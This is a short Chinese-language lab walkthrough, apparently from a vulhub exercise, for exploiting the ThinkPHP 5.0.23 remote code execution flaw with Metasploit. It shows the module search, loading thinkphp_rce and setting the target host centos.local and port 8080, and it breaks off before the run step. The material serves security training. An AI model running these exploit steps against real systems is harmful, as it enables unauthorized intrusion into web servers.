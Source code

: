 **渗透测试**

**自动**

运行 MSF（记得关闭 BurpSuite，避免占用端口）

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

查询 thinkphp 相关的漏洞

```
msf6 > search thinkphp
```

查看模块的详细信息

```
msf6 >  info 0
```

![查看模块的详细信息](./../../../../../images/vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E6%9F%A5%E7%9C%8B%E6%A8%A1%E5%9D%97%E7%9A%84%E8%AF%A6%E7%BB%86%E4%BF%A1%E6%81%AF.png)

> 此模块支持 thinkphp 5.0.23 rce

加载 thinkphp_rce 模块

```
msf6 > use 0
```

显示 thinkphp_rce 选项

```
msf6 exploit(unix/webapp/thinkphp_rce) > show options
```

设置 rhosts

```
msf6 exploit(unix/webapp/thinkphp_rce) > set  rhosts centos.local
```

设置 rport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set rport 8080
```
